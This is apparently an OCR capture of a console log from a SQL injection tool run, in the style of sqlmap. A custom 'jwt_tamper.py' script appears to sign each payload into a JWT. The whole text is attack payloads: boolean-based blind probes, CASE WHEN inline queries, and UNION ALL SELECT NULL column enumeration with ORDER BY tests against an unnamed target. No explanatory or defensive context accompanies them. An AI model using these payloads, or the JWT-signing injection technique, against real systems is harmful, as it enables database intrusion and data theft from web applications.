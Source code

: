 ```bash
[14:28:33] [INFO] [jwt_tamper.py] Sign payload:  AND 3799=7614
[14:28:33] [INFO] [jwt_tamper.py] Sign payload:  AND 3327=3327
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ') AND 5360=3498 AND ('IPqL'='IPqL
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ') AND 3327=3327 AND ('SmCF'='SmCF
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ' AND 2343=9405 AND 'mNzi'='mNzi
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ' AND 3327=3327 AND 'mxHc'='mxHc
[14:28:33] [INFO] [jwt_tamper.py] Sign payload:  AND 4276=8667-- ghVn
[14:28:33] [INFO] [jwt_tamper.py] Sign payload:  AND 3327=3327-- IpVZ
[14:28:33] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: (SELECT (CASE WHEN (2819=4309) THEN '' ELSE (SELECT 4309 UNION SELECT 5264) END))
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: (SELECT (CASE WHEN (6692=6692) THEN '' ELSE (SELECT 7884 UNION SELECT 2322) END))
[14:28:34] [INFO] testing 'Generic inline queries'
[14:28:34] [INFO] [jwt_tamper.py] Sign payload: (SELECT CONCAT(CONCAT('qbzvq',(CASE WHEN (7732=7732) THEN '1' ELSE '0' END)),'qqzpq'))
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] n
[14:28:43] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) ORDER BY 1-- APEg
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL-- rAGF
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL-- kuJJ
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL-- Soik
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL-- LKmi
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL-- Dsqv
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL-- HloX
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- ZjzR
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- GQsS
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- GVoY
[14:28:44] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- GxQY
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  ORDER BY 1-- OBkK
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL-- gTVU
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL-- oJSI
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL-- oxkW
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL-- VaYS
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL-- GHIy
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL-- bzGM
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- YivV
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- tOZk
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- rsCg
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- wsBB
[14:28:44] [INFO] [jwt_tamper.py] Sign payload: ') ORDER BY 1-- ziPX
[14:28:44] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL-- OOOJ
[14:28:44] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL-- EKdF
[14:28:44] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL-- PPWK
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL-- QwMq
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL-- wunZ
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL-- RarC
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- KmZx
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- nnhy
```